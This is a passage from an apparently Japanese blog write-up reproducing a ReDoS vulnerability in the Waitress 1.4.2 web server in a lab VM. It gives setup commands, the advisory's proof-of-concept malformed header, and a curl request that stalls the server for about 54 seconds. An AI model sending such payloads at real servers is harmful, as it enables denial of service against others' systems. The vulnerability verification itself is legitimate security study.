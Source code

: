 



## 検証

　では実際に Waitress を利用した環境を構築し、本脆弱性を確認していきます。  

### 検証バージョン

　各ツールのバージョンは以下の通りです。  
Waitress は脆弱性が存在しているバージョンの前後のバージョン(1.4.1、1.4.3)も試しました。  

- Ubuntu 18.04.1
- Python 3.7.4
- Bottle 0.12.18
- Waitress 1.4.1、1.4.2、1.4.3

### 環境構築

　検証環境の構築はこちらの記事を参考にしました。  
[bottle.py + waitressでPythonのみで動作可能なWebサーバ - Qiita](https://qiita.com/yoichiwo7/items/abcd87c8a8a2e027fc12)

　検証の為に「bottle」と「waitress」のバージョンは上記事とは異なるものを使用しています。  
  
　「bottle」は現時点の最新版を使います(任意)。  
「Waitress」はパッチが適用されていないバージョン`1.4.2`を使います(<b>必須</b>)。  
  
　なので各パッケージの取得コマンドは以下のように変更しています。  
<div class="sm-code">
```
curl -OsL https://raw.githubusercontent.com/bottlepy/bottle/0.12.18/bottle.py
curl -sL https://github.com/Pylons/waitress/archive/v1.4.2.tar.gz | tar xz --strip=1 waitress-1.4.2/waitress
```  
</div>

　あと私はVM上で検証していたので外部から接続できるように `run(server="waitress", host='0.0.0.0', port=8080)` の行を `run(server="waitress", host='0.0.0.0', port=8080)` に変更して実行しました。

### ReDoS をしてみる

　Githubのアドバイザリを参照してみると、以下のようにPoCが記載されておりましたので、このシグネチャを用いて検証していきます。  
送信する「`x`」文字を増やすごとに負荷が増えていくらしいです。  
> Invalid header example: Bad-header: xxxxxxxxxxxxxxx\x10
Increasing the number of x's in the header will increase the amount of time Waitress spends in the regular expression engine.

　それでは各バージョンに対して、このヘッダーを含めたリクエストを送信し、どのような挙動になるのかを確認していきます。  

#### 脆弱なバージョン 1.4.2

　curlコマンド用いてシグネチャを含めたリクエストを送信していきます。timeコマンドを付与して応答時間を確認しています。  
応答時間が長すぎることを避けたい為、「`x`」は適度な数にして送信することにします。  

<div class="sm-code">
```
$ time curl "http://192.168.56.13:8080/hello/hogefuga" -H "Bad-header: xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx`echo -n '\x10'`"
Bad Request

Invalid header

(generated by waitress)curl "http://192.168.56.13:8080/hello/hogefuga" -H   0.01s user 0.01s system 0% cpu 54.468 total
```
</div>  
